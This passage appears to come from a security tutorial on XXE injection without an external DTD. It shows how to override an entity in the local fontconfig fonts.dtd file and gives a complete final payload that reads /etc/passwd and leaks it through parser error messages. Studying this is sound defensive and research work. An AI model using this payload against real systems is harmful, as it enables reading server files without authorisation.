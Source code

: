 One of the remaining channels is the error messages. This channel is available if the application is configured to returned detail error messages.

### Method without external DTD

Can we do a concatenation trick without external DTD ? The short answer to the problem is: Yes we can! 
Arseniy Sharoglazov found [an interesting technique that allows us to use a local DTD instead of an external DTD](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/).


We need to find an entity that is declared and use in the same DTD. Here is an example taken from `/usr/share/xml/fontconfig/fonts.dtd`.
```xml
[…]
<!ENTITY % constant '>[MALICIOUS]<!ELEMENT dummy(123 '>
<!ELEMENT patelt (%constant;)*>
[…]
```

If we replace the `constant` entity by the following XML injection. It would allow us to evaluate arbitrary XML. Our objective is going to do a concatenation within this injection point.
```xml
<!ENTITY % constant '>[MALICIOUS]<!ELEMENT dummy(123 '>

<!ELEMENT patelt (%constant;)*>
```

The malicious XML we are looking to inject in the `[MALICIOUS]` placeholder is the following:
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
```

When `%eval` will be evaluated, the concatenation will occur.

### Overview

In summary, here are the steps that will be needed during the XML parsing:

1. Initialize local DTD
2. Overrides one of its entities (replace the entity)
3. Evaluate ELEMENT and ENTITY from the local DTD

The final evaluation should trigger the injection of new entities doing
the same concatenation trick used in external DTD.


### Final payload

The payload we are going to send will look like this:

```xml
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/fontconfig/fonts.dtd">

<!ENTITY % constant '><!ENTITY &#x25; file SYSTEM
"file:///etc/passwd"> <!ENTITY &#x25; eval "<!ENTITY
&#x26;#x25; error SYSTEM
&#x27;file:///nonexistent/&#x25;file;&#x27;>"><!ELEMENT
dummy(123 '>
<!ELEMENT patelt (%constant;)*>


    %local_dtd;
]>
<message></message>
```
